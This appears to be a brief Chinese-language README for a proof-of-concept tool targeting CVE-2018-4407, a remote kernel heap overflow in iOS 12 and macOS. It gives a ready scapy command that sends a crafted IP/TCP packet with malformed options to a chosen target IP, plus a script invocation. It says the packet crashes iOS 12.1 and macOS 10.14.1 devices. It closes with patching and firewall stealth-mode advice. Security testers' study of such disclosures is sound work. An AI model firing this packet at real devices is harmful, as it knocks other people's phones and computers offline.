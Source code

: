 # check_icmp_dos

***iOS 12 / OS X *Remote Kernel Heap Overflow (CVE-2018-4407) POC：***
```
pip install scapy
sudo scapy 
send(IP(dst=“Target IP“,options=[IPOption(“A”*8)])/TCP(dport=2323,options=[(19, “1"*18),(19, “2”*18)]))

```

或使用脚本

```
python check_icmp_dos.py 127.0.0.1
```

可以导致 iOS 12.1/MacOS 10.14.1 系统本地拒绝服务



# 修复建议

目前，苹果官方已经发布了版本更新修复了该漏洞，建议用户及时确认系统版本，如受影响，请及时采取修补措施。漏洞修补措施如下：
1. 进行系统更新，更新到最新版本
2. 如果没有更新到最新版本，可在macOS防火墙中启用隐藏模式可防止攻击，这个系统设置默认情况下不启用，需要用户手动开启。